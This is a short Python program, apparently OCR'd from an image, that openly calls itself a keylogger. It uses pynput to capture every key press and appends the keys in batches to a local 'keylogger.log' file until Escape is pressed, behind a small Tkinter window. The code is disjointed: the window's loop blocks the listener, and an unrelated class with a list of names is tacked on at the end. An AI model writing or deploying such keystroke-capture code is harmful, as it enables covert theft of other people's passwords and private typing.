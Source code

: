 #soucre code for the Program
# By Moises Beleche

from pynput import keyboard
from tkinter import *
import tkinter as tk
from tkinter import ttk
from tkinter.messagebox import showinfo


class App(tk.Tk):
  def __init__(self):
    super().__init__()

    # configure the root window
    self.title('Python keylogger')
    self.iconbitmap(r"IMG.ico")
    self.geometry('400x110')

    # label
    self.label = ttk.Label(self, text='Activate key logger To disable it escape key on your keyboard')
    self.label.pack()

    # button
    self.button = ttk.Button(self, text='Click Me')
    self.button['command'] = self.button_clicked
    self.button.pack()

  def button_clicked(self):
    showinfo(title='Information', message='It is now active!')

if __name__ == "__main__":
  app = App()
  app.mainloop()

#Variable count and variable keys
count, keys = 0, []
#Function to save to a TXT file
def log_2_file(keys):
    with open("keylogger.log", "a") as log_file:
        for key in keys:
            log_file.write(str(key) + "\n")
            log_file.flush()
        log_file.write("\n")
#Function to add key presses to file
def key_pressed(key):
    global keys, count

    keys.append(str(key))
    count += 1

    if count == 10:
        log_2_file(keys)
        count, keys = 0, []
#Function Released to end the Program 
def key_released(key):
    if key == keyboard.Key.esc:
        return False
# loop
with keyboard.Listener(on_press=key_pressed, on_release=key_released) as loop:
    loop.join()

class Letters: 
    def __init__(self, name, roll): 
        self.name = name 
        self.roll = roll
   
# creating list       
list = [] 
  
# appending instances to list 
list.append( Letters('Akash', 2) )
list.append( Letters('Deependra', 40) )
list.append( Letters('Reaper', 44) )
